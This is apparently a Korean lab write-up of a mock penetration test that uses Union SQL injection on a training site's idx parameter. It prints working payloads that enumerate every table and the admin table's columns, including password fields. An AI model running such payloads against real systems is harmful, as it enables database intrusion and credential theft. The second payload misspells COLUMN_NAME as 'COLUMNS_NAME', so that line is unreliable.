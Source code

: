 
### 모의 침투

Union SQL Injection을 이용한 모의 침투를 실시한다.

```
http://10.200.43.12/kisec/dataRoom/notice_view.html?idx=36&keyfield=&keyword=
http://10.200.43.12/kisec/dataRoom/kisec_lab_view.html?idx=26&keyfield=&keyword=
http://10.200.43.12/kisec/dataRoom/after_view.html?idx=37&keyfield=&keyword=
```

홈 > 커뮤니티 : `KISEC ALBUM`을 제외한 3개의 URL **idx** parameter를 이용한다.

* INFORMATION_SCHEMAS : 데이터베이스의 정보를 담고 있으며 모든 Table과 Column의 정보 역시 포함하고 있습니다.

데이터베이스 종류 | 연결 연산자|
:-----:|:-----:|
TABLES | DB 내의 모든 테이블 정보
COLUMNS | DB 내의 모든 칼럼 정보

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/184582642-a751e470-2272-4e3a-863c-1e37ba9216f2.jpg" width = 420>
</p>

```SQL 
' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, GROUP_CONCAT(TABLE_NAME SEPARATOR ' '), 17, 18 FROM INFORMATION_SCHEMA.TABLES -- 
```
(주석인 **--** 뒤에 공백 필요)

현재 사용중인 데이터베이스의 모든 테이블 값이 출력되는 것을 알 수 있다.

이 중에서 노출되면 위험하다고 예상되는 부분인 `USER_PRIVILEGES, add_info, admin_mem, hm_admin_tb`가 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/184585396-1778885b-ce25-4759-9a33-610099b94879.jpg" width = 420>
</p>

```SQL
' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, GROUP_CONCAT(COLUMNS_NAME SEPARATOR ' '), 17, 18 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = "HM_ADMIN_TB" -- 
```

* hm_admin_tb
   * `idx admin_status admin_type admin_id admin_pass admin_name admin_phone admin_mobile admin_email admin_grade admin_hit admin_cmt reg_date last_date`

이 테이블에는 관리자 계정에 관한 정보가 들어있는 것을 알 수 있다.

**이와 같은 방식으로 원하는 테이블 명과 컬럼 명 및 세부 정보까지 확인할 수 있다.**
